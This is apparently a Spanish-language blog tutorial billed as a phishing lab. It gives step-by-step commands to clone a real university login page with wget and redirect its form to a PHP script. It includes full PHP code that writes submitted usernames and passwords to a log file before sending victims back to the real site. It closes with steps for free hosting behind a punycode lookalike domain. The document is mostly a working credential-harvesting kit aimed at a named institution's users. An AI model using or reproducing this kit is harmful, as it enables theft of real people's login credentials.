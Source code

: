 ```yaml
---
title: Laboratorio de pishing
author: FredyRosero
tags: 
 - laboratorio
 - pishing
 - redteam
date: 2022-05-20'
layout: post
categories: [laboratorios]
---
```

Abstract.
 <!--more-->

## Prerrequisitos
```bash
sudo apt install
```

## Método manual

### WGet
-E
--adjust-extension
> If a file of type application/xhtml+xml or text/html is downloaded and the URL does not end with the regexp \.[Hh][Tt][Mm][Ll]?, this option will cause the suffix .html to be appended to the local filename.

-H
--span-hosts
> Enable spanning across hosts when doing recursive retrieving. 

-k
--convert-links
> After the download is complete, convert the links in the document to make them suitable for local  viewing.

-K
--backup-converted
> When converting a file, back up the original version with a .orig suffix. Affects the behavior of -N. 
-p
--page-requisites
> This option causes Wget to download all the files that are necessary to properly display a given HTML page.

-nH
--no-host-directories
> Disable generation of host-prefixed directories.

#### Descarga de página
```bash
URL=https://micampus.unal.edu.co/
USER_AGENT='"Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/60.0"'
WEB_PATH=$(pwd)/web
wget -E -H -k -K -p -nH --cut-dirs=100 -nv $URL --user-agent $USER_AGENT --directory-prefix=$WEB_PATH
```
### Index.html
Vamos a copiar el archivo `index.html`
```bash
cd web
cp index.html index.html.bkp
vim index.html
# :q
```

Luego lo formateamos con [tidy](https://www.html-tidy.org/)
```bash
tidy -indent --indent-spaces 2 --quiet --tidy-mark no index.html.bkp > index.html
```

Ahora buscamos el formulario de login y cambiamos su atributo [`action`](https://developer.mozilla.org/es/docs/Web/HTML/Element/form#attr-action) a `pish.hp` el cual será la URI del programa que procesará la información enviada por medio del formulario.
```bash
vim index.html
# q/i action=
# vi"c
# phish.php
# :w
```

Tambien identificamos el atributo `name` de los inputs del mismo formulario
```bash
# q/i name=
# :q
```

Ahora creamos el archivo `phish.php` con el comando `vim phish.php`, pegamos y el siguiente contenido y salimos con `:wq`
```php
<?php
// Extraer Form data
$form_data = file_get_contents('php://input'); // Guardar cuerpo de la petición en un string
parse_str($form_data, $parsed); // Parsea un string a variables

// Construimos el mensaje a guardar
$log = "=============+=============\n";
$log .= "Username:	" . $parsed['username'] . "\n";
$log .= "Password:	" . $parsed['password'] . "\n";
$log .= "===========================\n\n\n";

// Escribimos en el archivo `log`
$logpath = "log";
$file = fopen($logpath, 'a'); // la opción a (de append) permite abrir para agregar
fwrite($file, $log);
fclose($file);

// redirection link will be set automatically
$URL = "https://micampus.unal.edu.co/";
header("Location: ${URL}");
?>
```

Lanzamos el servidor web standalond de php con
```bash
php -S 0.0.0.0:8081
```
### Servidor web
1. Solicitamos un hosting grauito en 000webhost.com
1. Definimos el dominio p. ej. *i❤️uqbar.ml*
1. Traducimos la url a punycode en [punycoder](https://www.punycoder.com/) p. ej. *xn--iuqbar-i50d.ml*
1. Creamos un dominio en freenom.com y asignamos la redirección o registro DNS p. ej. *http://test-uqbar.000webhostapp.com/*. Esto implica verificar el correo



